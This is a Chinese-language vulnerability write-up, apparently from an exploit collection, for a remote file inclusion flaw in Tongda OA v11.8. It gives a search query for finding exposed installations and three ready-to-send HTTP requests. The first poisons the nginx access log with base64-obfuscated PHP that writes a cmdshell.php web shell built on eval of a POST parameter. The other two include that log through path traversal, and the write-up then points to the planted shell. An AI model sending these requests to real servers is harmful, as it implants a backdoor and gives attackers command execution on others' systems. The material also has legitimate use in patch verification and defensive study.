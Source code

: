 # 通达OA v11.8 getway.php 远程文件包含漏洞

## 漏洞描述

通达OA v11.8 getway.php 存在文件包含漏洞，攻击者通过发送恶意请求包含日志文件导致任意文件写入漏洞

## 漏洞影响

<a-checkbox checked>通达OA v11.8</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="TDXK-通达OA" </a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1628303888717-4ffc91a6-e87e-4e00-8bd5-b2218bb0772a-20220313173009245.png)

发送恶意请求让日志被记录

```php
GET /d1a4278d?json={}&aa=<?php @fputs(fopen(base64_decode('Y21kc2hlbGwucGhw'),w),base64_decode('PD9waHAgQGV2YWwoJF9QT1NUWydjbWRzaGVsbCddKTs/Pg=='));?> HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Accept-Encoding: gzip
```

![img](../../../.vuepress/public/img/1628304243872-a7ae1965-2e21-4551-9d92-b42a3468617b.png)

在通过漏洞包含日志文件

```php
POST /ispirit/interface/gateway.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 54
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

json={"url":"/general/../../nginx/logs/oa.access.log"}
```

![img](../../../.vuepress/public/img/1628304347438-754f2570-1b25-4e9e-b822-ec78c2ca944a.png)

再次发送恶意请求写入文件

```php
POST /mac/gateway.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 54
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

json={"url":"/general/../../nginx/logs/oa.access.log"}
```

![img](../../../.vuepress/public/img/1628304579748-4614da68-4756-43a6-b7c1-dc6e9e034819.png)

访问写入的文件 `/mac/cmdshell.php`

![img](../../../.vuepress/public/img/1628304836865-aee81900-a2a1-402c-9915-77a3d908e480.png)